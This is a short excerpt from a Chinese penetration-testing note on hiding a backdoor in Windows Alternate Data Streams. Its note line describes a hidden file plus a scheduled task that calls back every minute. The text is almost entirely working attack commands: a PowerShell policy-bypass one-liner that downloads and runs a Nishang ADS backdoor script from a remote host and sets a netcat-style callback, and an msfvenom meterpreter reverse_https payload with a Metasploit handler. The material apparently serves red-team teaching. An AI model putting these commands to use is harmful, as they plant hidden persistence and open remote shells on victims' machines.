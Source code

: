 	使用ADS创建一个隐藏文件，创建一个计划任务每隔一分钟请求一次攻击。
	>powershell.exe -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://192.168.0.107/ps/nishang/Backdoors/Invoke-ADSBackdoor.ps1'); Invoke-ADSBackdoor -PayloadURL http://192.168.0.107/ps/Schtasks-Backdoor.ps1 -Arguments 'Invoke-Tasksbackdoor -method nccat -ip 192.168.0.107 -port 12138 -time 1'"

![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/536.png)
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/537.png)
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/538.png)
	生成
	>msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.0.107 LPORT=12138 -f powershell -o /var/www/html/ads
	>use exploit/multi/handler
	>set payload windows/x64/meterpreter/reverse_https
	>run